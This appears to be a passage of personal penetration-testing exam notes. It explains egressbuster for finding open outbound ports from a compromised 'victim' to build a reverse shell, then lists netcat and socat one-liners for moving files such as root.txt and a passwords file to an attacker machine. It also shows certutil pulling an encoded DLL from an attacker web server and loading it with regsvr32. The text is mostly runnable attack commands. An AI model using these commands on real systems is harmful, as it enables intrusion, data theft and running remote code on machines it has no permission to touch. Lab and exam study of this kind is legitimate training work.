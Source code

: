 - egressbuster
    ! You must have access to the victim via webshell or some other means. Must be able to upload egressbuster.py to victum too
    - Upload "~/notes/exam/egressbuster/egressbuster.py" to the victim (or the .exe if windows).

        - On kali 
            > sudo python3 ./egress_listener.py 192.168.49.167 tun0 192.168.167.64 shell
            - "192.168.49.167" is kali tun0 ip, "192.168.167.64" is the victim interface

        - On victim 
            > ./egressbuster.py 192.168.49.167 1-65536 shell

    - wait for the listener to show ports that come through, these are usable!
    - then set up your own reversehell or use the one provided in egressbuster


# Transfer File
----------------
## Third party tools
    - netcat (From windows to kali):
        > kali > nc -l -p 4443 > root.txt
        > Windows > nc.exe -w 3 10.10.14.18 4443 < root.txt
    - netcat (From Kali to Windows):
        > windows > nc.exe -nlvp 127.0.0.1 4444 > incoming.exe
        > kali > nc -nv 192.168.119.135 4444 < /path/to/file.exe 
    - netcat (From Kali to Linux):
        > Linbox > nc -nlvp 3000 > incoming.sh
        > kali > nc -w 3 192.168.131.97 3000 < incoming.sh
    - netcat (From linux to Kali)
        > kali > nc -nlvp 3000 > incoming.exe
        > Linbox  > ./nc -w 3 10.10.14.18 3000 < incoming.txt
        OR
        > Linbox > cat file.exe | nc 192.168.119.135 3000
        - Make sure to CTRL-C from kali to end the session and send something else
    - socat:
        > server > sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
        > client > socat TCP4:192.168.1.177:443 file:recieved_secret_passwords.txt,create

## Windows Tools:
- certutil: Transfer encoded / decode:
  http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html 
  https://www.hackingarticles.in/windows-for-pentester-certutil/
    - On kali, convert file to base64
        > base64 dll.txt
    - Run webserver
        > python -m SimpleHTTPServer 8088
    - On windows
        > certutil.exe -urlcache -split -f http://192.168.1.110:8088/dll.txt dll.txt
        > certutil.exe -decode .\dll.txt mydll.dll
        > regsvr32 /s /u mydll.dll
